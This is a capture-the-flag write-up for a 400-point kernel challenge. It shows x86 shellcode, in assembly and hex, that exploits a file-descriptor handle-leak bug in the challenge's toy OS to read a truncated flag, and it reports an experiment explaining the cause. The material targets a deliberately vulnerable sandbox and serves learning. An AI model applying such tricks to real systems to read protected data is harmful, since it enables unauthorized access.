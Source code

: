 # How a buggy program solves a 400 point challenge
**Writeup Author:** Kevin He (Username `trinary-exploitation`)  
**Category:** Kernel Exploitation
> ## Freaky_File_Descriptors
> How does the OS know what bytes to give you when you call read? How does it keep track of how far you've read into a file?
> 
> Find an exploit that lets you read past the end of /sandb0x/freaky_fds.txt and see what was truncated!

To start, I ran `cat /sandb0x/freaky_fds.txt` to see if the file is suspicious, I got:
> \[Devlog\]: On second thought, keeping this info stored in plaintext is too dangerous. I'm going to redact the secure parts.  
> 
> User: sandb0x  
> Password: pwny
> 
> Super important flag for the Freaky File Descriptors challenge:

And nothing more was printed to the screen.

## The memory initialization myth

Since the challenge suggests that there is truncated data after the file, I initially thought it would be as easy as requesting more bytes to read than the file's length, so I wrote this piece of shellcode (this will be referred to as _Shellcode A_ later on):

**Shellcode A**
```asm
.arch x86
.bits 32
.org 0x0804e0a0 ; If the address binexec will run your program is not this value, REPLACE with the address you get. This line sets the address for the first instruction so that labels work correctly
.equ sizebuf 500 ; Buffer size of 500, which is longer than the length of the file

mov eax, 2 ; Syscall number for OPEN
mov ebx, filename ; filename="/sandb0x/freaky_fds.txt"
int 0x80 ; fd = OPEN(filename), fd is the file descriptor for this file
mov ebx, eax ; fd from OPEN
mov eax, 4 ; Syscall number for READ
mov ecx, buffer ; buffer for READ
mov edx, sizebuf ; max number of bytes to READ = buffer size
int 0x80 ; READ(fd, buffer, sizebuf)
mov eax, 5 ; Syscall number for WRITE
mov ebx, 0 ; File descriptor 0 is standard output (stdout): write to terminal screen
mov ecx, buffer ; write contents of buffer (containing read data) to stdout
mov edx, sizebuf ; max number of bytes to write = buffer size
int 0x80 ; WRITE(0, buffer, sizebuf)
ret

filename:
.string "/sandb0x/freaky_fds.txt"
buffer:
; the buffer, uses uninitialized data after the shellcode, hopefully it won't overflow the memory region allocated by binexec
```

Compiling this with `rasm2 -f <filename>` gives the following shellcode:
```
b802000000bbd6e00408cd8089c3b804000000b9eee00408baf4010000cd80b805000000bb00000000b9eee00408baf4010000cd80c32f73616e646230782f667265616b795f6664732e74787400
```

But using this shellcode, I got the same result obtained from `cat`, except for some padding spaces (which are actually uninitialized unprintable characters) at the end:

![Nothing is read past the end of the file](assets/freaky-fd-fail.png)

I thought that the reason it failed was because part of the buffer after the shellcode was not writable by the process so `READ` had ignored it for security reasons, so I tried again but this time initializing the content after label `buffer:` with underscores, which can be done simply by appending 500 `5f`'s (ASCII code for underscore) to the end of the shellcode (will be referred to as _Shellcode B_). To speed up this process (avoid manual typing), I used some PowerShell scripts which can be found in [`scripts/`](https://github.com/kevin-he-01/uiuctf2020-writeup/tree/master/scripts) in this repository.

After bombarding the screen with `5f`, I cannot believe my eyes:

![The flag with underscores after it](assets/freaky-fd.png)

## Why does this exploit work?

After the CTF is over, I wanted to figure out why this trick works. As I experimented with the `READ` syscall, I found that it refuses to read more characters than the file has by returning fewer characters than requested in the `buf_size` argument. So if that is the case, this exploit would not have worked. I was also very skeptical of whether memory initialization causes `READ` to dump the flag.

In addition, I forgot to close the file descriptor opened by `OPEN` syscall, so I wondered if by running the shellcode &mdash; and thus calling `OPEN` &mdash; multiple times will also contribute to getting the flag.

### A simple experiment

To test out which factor caused `READ` to reveal the flag, I designed a simple controlled experiment with 3 trials:  
- Trial A: Running _Shellcode A_ (the original shellcode _without_ `5f` padding) **twice** in binexec
    - This eliminates memory initialization as a confounding variable
- Trial B: Running _Shellcode B_ (the shellcode _with_ `5f` padding) **once** in binexec
    - This eliminates running `OPEN` multiple times as a confounding variable
- Trial C (Control): Running _Shellcode C_ (shown below) twice. Shellcode C is based on shellcode A but fixes the handle leak bug in shellcode A by calling `CLOSE(fd)` before it exits.

**Shellcode C**
<!-- cSpell:ignore sizebuf -->
```asm
.arch x86
.bits 32
.org 0x0804e0a0 ; If the address binexec will run your program is not this value, REPLACE with the address you get. This line sets the address for the first instruction so that labels work correctly
.equ sizebuf 500 ; Buffer size of 500, which is longer than the length of the file

mov eax, 2 ; Syscall number for OPEN
mov ebx, filename ; filename="/sandb0x/freaky_fds.txt"
int 0x80 ; fd = OPEN(filename), fd is the file descriptor for this file
mov edi, eax ; store fd into edi, which won't be clobbered in syscalls
mov eax, 4 ; Syscall number for READ
mov ebx, edi ; fd from OPEN
mov ecx, buffer ; buffer for READ
mov edx, sizebuf ; max number of bytes to READ = buffer size
int 0x80 ; READ(fd, buffer, sizebuf)
mov eax, 5 ; Syscall number for WRITE
mov ebx, 0 ; File descriptor 0 is standard output (stdout): write to terminal screen
mov ecx, buffer ; write contents of buffer (containing read data) to stdout
mov edx, sizebuf ; max number of bytes to write = buffer size
int 0x80 ; WRITE(0, buffer, sizebuf)
mov eax, 3 ; syscall number for CLOSE
mov ebx, edi ; stored fd from OPEN
int 0x80 ; CLOSE(fd)
ret

filename:
.string "/sandb0x/freaky_fds.txt"
buffer:
; the buffer, uses uninitialized data after the shellcode, hopefully it won't overflow the memory region allocated by binexec
```

To eliminate the current system state as a variable, I rebooted the whole system (Ctrl-X) before running each trial.

### The results

Trial A (running _Shellcode A_ twice) yields the exact same result as if I ran _Shellcode A_ and then _Shellcode B_ as I did while the CTF is running. This concludes that calling `OPEN` twice alone is enough to make `READ` leak the flag, but does memory initialization alone also do the job?

Running trial B (running _Shellcode B_ once), which initialize memory with `5f`s, gives me no flag at all, with underscores in the redacted part. This shows that memory initialization plays no role at all and filling `5f`s as I did during the CTF is completely superfluous.

Trial C does not give me the flag, even though I ran _Shellcode C_ twice, this shows that properly closing a file before opening it again in the same process will not trigger the bug that causes the flag to be leaked.

## End Notes
There are 13 solves to this 400 point challenge (compared to only 5 solves in Kernel_Memory_Leak which is 300 points), which seems quite surprising. Even the contest managers imaged that people might be utilizing a bug that would qualify as a Small Oops. My explanation for this solve number is that most people, like me, wrote a buggy program that did not properly close a file descriptor and ran it again in the same `binexec` session after making unnecessary modifications (or no modifications at all). So future CTF makers have to be careful in designing problems that are difficult to solve not only by valid programs but also by buggy programs.
